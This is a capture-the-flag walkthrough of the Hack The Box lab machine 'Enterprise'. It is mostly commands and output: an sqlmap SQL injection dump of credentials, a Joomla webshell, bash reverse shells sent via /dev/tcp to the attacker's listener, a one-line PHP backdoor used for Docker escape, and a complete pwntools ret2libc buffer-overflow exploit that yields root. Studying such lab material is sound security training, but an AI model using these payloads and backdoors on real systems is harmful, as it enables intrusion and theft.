



# Target
| Category          | Details                                                      |
|-------------------|--------------------------------------------------------------|
| 📝 **Name**       | [Enterprise](https://app.hackthebox.com/machines/Enterprise) |  
| 🏷 **Type**       | HTB Machine                                                  |
| 🖥 **OS**         | Linux                                                        |
| 🎯 **Difficulty** | Medium                                                       |
| 📁 **Tags**       | WordPress, SQLi, docker escape, buffer overflow, ret2libc    |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 16:05 +0100
Nmap scan report for 10.129.2.149
Host is up (0.033s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:e9:8c:c5:b5:52:23:f4:b8:ce:d1:96:4a:c0:fa:ac (RSA)
|   256 f3:9a:85:58:aa:d9:81:38:2d:ea:15:18:f7:8e:dd:42 (ECDSA)
|_  256 de:bf:11:6d:c0:27:e3:fc:1b:34:c0:4f:4f:6c:76:8b (ED25519)
80/tcp    open     http     Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: USS Enterprise &#8211; Ships Log
|_http-generator: WordPress 4.8.1
443/tcp   open     ssl/http Apache httpd 2.4.25 ((Ubuntu))
|_http-server-header: Apache/2.4.25 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enterprise.local/organizationName=USS Enterprise/stateOrProvinceName=United Federation of Planets/countryName=UK
| Not valid before: 2017-08-25T10:35:14
|_Not valid after:  2017-09-24T10:35:14
5355/tcp  filtered llmnr
8080/tcp  open     http     Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
32812/tcp open     unknown
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions: 
|     _______ _______ ______ _______
|     |_____| |_____/ |______
|     |_____ |_____ | | | _ ______|
|     Welcome to the Library Computer Access and Retrieval System
|     Enter Bridge Access Code: 
|     Invalid Code
|     Terminating Console
|   NULL: 
|     _______ _______ ______ _______
|     |_____| |_____/ |______
|     |_____ |_____ | | | _ ______|
|     Welcome to the Library Computer Access and Retrieval System
|_    Enter Bridge Access Code:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port32812-TCP:V=7.98%I=7%D=3/15%Time=69B6CABA%P=x86_64-pc-linux-gnu%r(N
SF:ULL,ED,"\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_______\x20_______\x20\x20______\x20_______\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\|\x20\x20\x20\x20\x20\x20\|\x20\x20\x20\x20\x20\x
SF:20\x20\|_____\|\x20\|_____/\x20\|______\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\|_____\x20\|_____\x20\x20\|\x20\x20\x20\x20\x20\|\x20\|\x20\
SF:x20\x20\x20\\_\x20______\|\n\nWelcome\x20to\x20the\x20Library\x20Comput
SF:er\x20Access\x20and\x20Retrieval\x20System\n\nEnter\x20Bridge\x20Access
SF:\x20Code:\x20\n")%r(GenericLines,110,"\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20_______\x20_______\x20\x20______\x
SF:20_______\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\x20\x20\x20\x
SF:20\x20\|\x20\x20\x20\x20\x20\x20\x20\|_____\|\x20\|_____/\x20\|______\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|_____\x20\|_____\x20\x20\|\x2
SF:0\x20\x20\x20\x20\|\x20\|\x20\x20\x20\x20\\_\x20______\|\n\nWelcome\x20
SF:to\x20the\x20Library\x20Computer\x20Access\x20and\x20Retrieval\x20Syste
SF:m\n\nEnter\x20Bridge\x20Access\x20Code:\x20\n\nInvalid\x20Code\nTermina
SF:ting\x20Console\n\n")%r(GetRequest,110,"\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_______\x20_______\x20\x20______
SF:\x20_______\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\x20\x20\x20
SF:\x20\x20\|\x20\x20\x20\x20\x20\x20\x20\|_____\|\x20\|_____/\x20\|______
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|_____\x20\|_____\x20\x20\|\
SF:x20\x20\x20\x20\x20\|\x20\|\x20\x20\x20\x20\\_\x20______\|\n\nWelcome\x
SF:20to\x20the\x20Library\x20Computer\x20Access\x20and\x20Retrieval\x20Sys
SF:tem\n\nEnter\x20Bridge\x20Access\x20Code:\x20\n\nInvalid\x20Code\nTermi
SF:nating\x20Console\n\n")%r(HTTPOptions,110,"\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_______\x20_______\x20\x20___
SF:___\x20_______\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\x20\x20\
SF:x20\x20\x20\|\x20\x20\x20\x20\x20\x20\x20\|_____\|\x20\|_____/\x20\|___
SF:___\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|_____\x20\|_____\x20\x20
SF:\|\x20\x20\x20\x20\x20\|\x20\|\x20\x20\x20\x20\\_\x20______\|\n\nWelcom
SF:e\x20to\x20the\x20Library\x20Computer\x20Access\x20and\x20Retrieval\x20
SF:System\n\nEnter\x20Bridge\x20Access\x20Code:\x20\n\nInvalid\x20Code\nTe
SF:rminating\x20Console\n\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.70 seconds
```

#### Add `enterprise.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ echo "$TARGET enterprise.htb" | sudo tee -a /etc/hosts                 
10.129.3.197 enterprise.htb
```

#### Discover `lcars.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ feroxbuster --url https://enterprise.htb/ -k -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404
<SNIP>
200      GET        6l       33w     2221c https://enterprise.htb/files/lcars.zip
<SNIP>
```

#### Download and extract `lcars.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ wget -q https://enterprise.htb/files/lcars.zip --no-check-certificate && unzip lcars.zip
Archive:  lcars.zip
  inflating: lcars/lcars_db.php      
  inflating: lcars/lcars_dbpost.php  
  inflating: lcars/lcars.php 
```

#### Discover that `lcars.zip` archive contains code for `lcars` WordPress plugin
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ cat lcars/lcars.php   
<?php
/*
*     Plugin Name: lcars
*     Plugin URI: enterprise.htb
*     Description: Library Computer Access And Retrieval System
*     Author: Geordi La Forge
*     Version: 0.2
*     Author URI: enterprise.htb
*                             */

// Need to create the user interface. 

// need to finsih the db interface

// need to make it secure

?> 
```

#### Discover SQLi in `lcars_db.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ cat -n lcars/lcars_db.php
<SNIP>
    11  // test to retireve an ID
    12  if (isset($_GET['query'])){
    13      $query = $_GET['query'];
    14      $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    15      $result = $db->query($sql);
    16      echo $result;
    17  } else {
    18      echo "Failed to read query";
    19  }
<SNIP>
```
Vulnerability sits in line 14.

#### Use `sqlmap` to exploit SQLi
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ sqlmap --level 5 --risk 3 -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1                                  
<SNIP>
sqlmap identified the following injection point(s) with a total of 767 HTTP(s) requests:
---
Parameter: query (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: query=1 AND 8943=(SELECT (CASE WHEN (8943=8943) THEN 8943 ELSE (SELECT 7390 UNION SELECT 8630) END))-- Mtcp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: query=1 AND (SELECT 4356 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT (ELT(4356=4356,1))),0x71786b6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=1 AND (SELECT 1727 FROM (SELECT(SLEEP(5)))xvcm)
---
<SNIP>
```

#### List databases
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ sqlmap --level 5 --risk 3 -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --dbs          
<SNIP>
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb
<SNIP> 
```
               
#### Find Joomla CMS users table
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ sqlmap --level 5 --risk 3 -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 -D joomladb --tables
<SNIP>
[18:22:12] [INFO] fetching tables for database: 'joomladb'
<SNIP>
| edz2g_users                   |
<SNIP>
```

#### List Joomla users
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ sqlmap --level 5 --risk 3 -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 -D joomladb -T edz2g_users --dump
<SNIP>
Database: joomladb
Table: edz2g_users
[2 entries]
+-----+---------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+---------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| id  | otep    | email                          | name       | otpKey  | params                                                                                       | block   | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+-----+---------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+---------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 400 | <blank> | geordi.la.forge@enterprise.htb | Super User | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
| 401 | <blank> | guinan@enterprise.htb          | Guinan     | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+-----+---------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+---------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
<SNIP>
```
We were not able to crack both hashes with `rockyou.txt`. Same problem occurred for WordPress user, thus further enumeration is needed.

#### Discover plaintext passwords in `wp_posts` table
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ sqlmap --level 5 --risk 3 -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 -D wordpress -T wp_posts --dump
<SNIP>

┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ cat /home/magicrc/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | grep password | tail -n 1 | sed 's/\\r\\n/\n/g' 
68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly

ZxJyhGem4k338S2Y

enterprisencc170

ZD3YxfnSjezg67JZ

u*Z14ru0p#ttj83zS6
<SNIP>
```
With 'trial and error' method we have discovered:
* `geordi.la.forge:ZD3YxfnSjezg67JZ` Joomla credentials
* `william.riker:u*Z14ru0p#ttj83zS6` WordPress credentials

#### Use `geordi.la.forge:ZD3YxfnSjezg67JZ` credentials to install [webshell](https://github.com/p0dalirius/Joomla-webshell-plugin) plugin


#### Confirm webshell is inplace
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ curl http://enterprise.htb:8080/modules/mod_webshell/mod_webshell.php -d "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using web shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" | jq -sRr @uri) && \
curl http://enterprise.htb:8080/modules/mod_webshell/mod_webshell.php -d "action=exec&cmd=$CMD"
```

#### Confirm foothold gained on unprivileged Docker container
```
connect to [10.10.14.16] from (UNKNOWN) [10.129.3.197] 58022
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a7018bfdc454:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@a7018bfdc454:/$ cat /proc/1/cgroup
11:cpuset:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
10:freezer:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
9:hugetlb:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
8:perf_event:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
7:devices:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
6:net_cls,net_prio:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
5:pids:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
4:memory:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
3:blkio:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
2:cpu,cpuacct:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
1:name=systemd:/docker/a7018bfdc4541f0cda3a574da2ca025d0079d958ca559d64a1419982c3382774
www-data@a7018bfdc454:/$ cat /proc/1/status | grep -i "seccomp"
Seccomp:        2
```

#### Discover writable docker host mount
Mount has been discovered with `deepce`.
```
<SNIP>
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/var/www/html/files /var/www/html/files rw,relatime - ext4 /dev/mapper/enterprise--vg-root rw,errors=remount-ro,data=ordered
[+] Possible host usernames ...
<SNIP>
www-data@a7018bfdc454:/$ ls -la /var/www/html/files
total 12
drwxrwxrwx  2 root     root     4096 Oct 17  2017 .
drwxr-xr-x 18 www-data www-data 4096 May 30  2022 ..
-rw-r--r--  1 root     root     1406 Oct 17  2017 lcars.zip
```
Mounted directory contains `lcars.zip` archive, exact one we could access via `https://enterprise.htb/files/lcars.zip`. We could exploit this misconfiguration to achieve RCE on docker host.

#### Put `cmd.php` backdoor in `/var/www/html/files`
```
www-data@a7018bfdc454:/$ echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' > /var/www/html/files/cmd.php
```

#### Confirm backdoor is inplace
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ curl https://enterprise.htb/files/cmd.php?cmd=id -k
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

#### Start `nc` to listen for reverse shell connection from docker host
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
```

#### Spawn reverse shell connection 
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'" | jq -sRr @uri) && \
curl "https://enterprise.htb/files/cmd.php?cmd=$CMD" -k
```

#### Confirm foothold gained on docker host
```
connect to [10.10.14.16] from (UNKNOWN) [10.129.3.197] 40050
bash: cannot set terminal process group (1563): Inappropriate ioctl for device
bash: no job control in this shell
www-data@enterprise:/var/www/html/files$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Capture user flag
```
www-data@enterprise:/$ cat /home/jeanlucpicard/user.txt 
b34efa25ba9ed2d10f16b8373a6ed1fe
```

#### Discover unknown SUID binary
Binary has been discovered with `linpeas`.
```
-rwsr-xr-x 1 root root 12K Sep  8  2017 /bin/lcars (Unknown SUID binary!)
```
After running this binary we could observe that this is exact same binary that is operating at port 32812

```
www-data@enterprise:/$ /bin/lcars 

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code:
```

#### Exfiltrate and analyze `lcars` binary


We can see that 'Bridge Access Code' is built from 8 hex encoded bytes. After decoding it we can see that code is `picarda1` 



Further analysis shows buffer overflow '4. Security' section.

#### Check properties of `lcars` executable
```
┌──(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ checksec --file=lcars                                            
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   93 Symbols        No    0               2               lcars
```
    
#### Check system-wide ASLR on target
```
www-data@enterprise:/$ cat /proc/sys/kernel/randomize_va_space
0
```
With ASLR disabled we try to exploit buffer overflow with ret2libc approach.

#### Generate payload for buffer overflow
```
┌──(.venv)─(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ python3 -c "from pwn import *; print(cyclic(500).decode())"
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae
```

#### Pass payload to binary using `gdb`
```
www-data@enterprise:/tmp$ gdb -q /bin/lcars
Reading symbols from /bin/lcars...(no debugging symbols found)...done.
(gdb) r
Starting program: /bin/lcars 

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu: 

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input: 
4
Disable Security Force Fields
Enter Security Override:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae

Program received signal SIGSEGV, Segmentation fault.
0x63616164 in ?? ()
(gdb) info registers
eax            0x216    534
ecx            0x7ffffde9       2147483113
edx            0xf7fc8870       -134444944
ebx            0x63616162       1667326306
esp            0xffffdbf0       0xffffdbf0
ebp            0x63616163       0x63616163
esi            0x1      1
edi            0xf7fc7000       -134451200
eip            0x63616164       0x63616164
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

#### Calculate EIP offset
```
┌──(.venv)─(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ python3 -c "from pwn import *; print(cyclic_find(0x63616164))"
212
```

#### Identify `system`, `exit`, and `/bin/sh` in `libc` for ret2libc attack
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.
```
The only available `/bin/sh` string in libc is located at `0xf7f70a0f`, which contains the byte `0x0a` (newline). Since the input is read using `scanf("%s")`, this byte acts as a terminator and causes the payload to be truncated before the full address is written to the stack. To bypass this limitation, we avoid using the `/bin/sh` string directly and instead use an alternative such as the `sh` string, which does not contain bad characters and still allows `system("sh")` to spawn a shell.
```
(gdb) find &system, +9999999, "sh"
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```
We will use `0xf7f6ddd5`.

#### Prepare and run remote exploit
```
┌──(.venv)─(magicrc㉿perun)-[~/attack/HTB Enterprise]
└─$ { cat <<'EOF'> exploit.py
from pwn import *

context.arch = 'i386'

IP = "enterprise.htb"
PORT = 32812

target = remote(IP, PORT)
system = 0xf7e4c060
exit   = 0xf7e3faf0
binsh  = 0xf7f6ddd5
offset = 212

payload = flat(
    b"A" * offset,
    system,
    exit,
    binsh
)

target.recvuntil(b"Enter Bridge Access Code:")
target.sendline(b"picarda1")
target.recvuntil(b"Waiting for input:")
target.sendline(b"4")
target.recvuntil(b"Enter Security Override:")
target.sendline(payload)
target.interactive()
EOF
} && python3 exploit.py
[+] Opening connection to enterprise.htb on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)
```

#### Capture root flag
```
$ cat /root/root.txt
3439869f1420986bf595a1151c412e00
```